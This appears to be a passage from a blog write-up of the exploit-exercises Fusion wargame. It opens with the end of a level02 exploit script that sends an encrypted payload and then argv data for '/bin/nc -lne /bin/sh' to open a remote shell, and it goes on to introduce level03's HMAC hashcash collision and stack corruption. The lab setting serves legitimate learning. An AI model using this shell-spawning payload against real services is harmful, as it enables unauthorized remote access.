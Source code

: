     # Vamos ala explotar!
    s.sendall(ENCRYPTED_PAYLOAD+"Q")
    time.sleep(0.5) # Wait for our payload to process
    # send some strings with relevant binaries and arguments
    s.sendall('/bin/sh\x00-lne\x00/bin/nc\x00') 
    time.sleep(0.5) # Cool people are late to the party
	# send argv pointers
    s.sendall(pack('I', 0x804b471)+pack('I', 0x804b46c)+pack('I',0x804b464))
    # All is well, Sayonara.
    s.close()
    return 0

exit(main())
{% endhighlight %}

### Phew!

Solving this level was a lot of fun; frustrating at times (when
arriving at a dead end.) If I had a femtiolapp for every failiure or
bad idea - ooh boy.

Let's continue on our quest towards non-scriptkiddieness.

* * * 

## [level03](https://exploit-exercises.com/fusion/level03/)

> About
>
>This level introduces partial hash collisions (hashcash) and
>more stack corruption

We're being sent a token, which also happends to be used as a key in
the HMAC function-call. The size of the token itself is 60 bytes. 

Note that according to wikipedias article on HMAC, when using SHA-1 as
hash, the key is padded with zero-bytes if the key size is less than
64 bytes.

the HMAC function called in the `validate_request` function

It turns out that finding a hash-collision in the space of two bytes
(2^16) is rather simple (in regards of time it takes to find one).

The `validate_request` function does not seem vulnerable to a
stack-based buffer overflow, it's just a hoop we have to jump through
while getting our exploit to work.

## Houston, we got a POST-request.
